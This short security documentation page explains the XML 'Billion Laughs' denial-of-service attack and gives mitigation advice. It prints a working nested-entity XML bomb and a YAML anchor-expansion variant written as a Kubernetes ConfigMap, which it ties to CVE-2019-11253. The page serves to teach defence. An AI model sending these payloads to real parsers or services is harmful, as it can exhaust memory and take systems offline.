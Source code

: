 ```yaml
---
title: XML Bomb
sidebar_position: 7
---
```


# XML Bomb Attack

## The Attack

<iframe
  width='100%'
  height='450'
  src='https://www.youtube.com/embed/WQUiub2hc0c'
></iframe>

### Classic "Billion Laughs" attack

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

### Variations for "Billion Laughs" attack

As an example of a YAML configuration file with [the same vulnerability that affected kubectl (CVE-2019-11253)](https://github.com/kubernetes/kubernetes/issues/83253):

```yml
apiVersion: v1
data:
  a: &a ['web', 'web', 'web', 'web', 'web', 'web', 'web', 'web', 'web']
  b: &b [*a, *a, *a, *a, *a, *a, *a, *a, *a]
  c: &c [*b, *b, *b, *b, *b, *b, *b, *b, *b]
  d: &d [*c, *c, *c, *c, *c, *c, *c, *c, *c]
  e: &e [*d, *d, *d, *d, *d, *d, *d, *d, *d]
  f: &f [*e, *e, *e, *e, *e, *e, *e, *e, *e]
  g: &g [*f, *f, *f, *f, *f, *f, *f, *f, *f]
  h: &h [*g, *g, *g, *g, *g, *g, *g, *g, *g]
  i: &i [*h, *h, *h, *h, *h, *h, *h, *h, *h]
kind: ConfigMap
metadata:
  name: yaml-bomb
  namespace: default
```

## The solution

Use less complex data formats such as JSON.

## Mitigation

In case that you must need to use XML...

> Be sure to follow the principle of attack surface reduction and disable entity expansion if you don’t require its use. Otherwise, apply appropriate defenses to limit the maximum amount of time and memory your application can spend on it.  
> Bryan Sullivan

### Refs

- [Wikipedia | Billion laughs attack](https://en.wikipedia.org/wiki/Billion_laughs_attack)
- [Microsoft | Security Briefs - XML Denial of Service Attacks and Defenses](https://docs.microsoft.com/en-us/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)
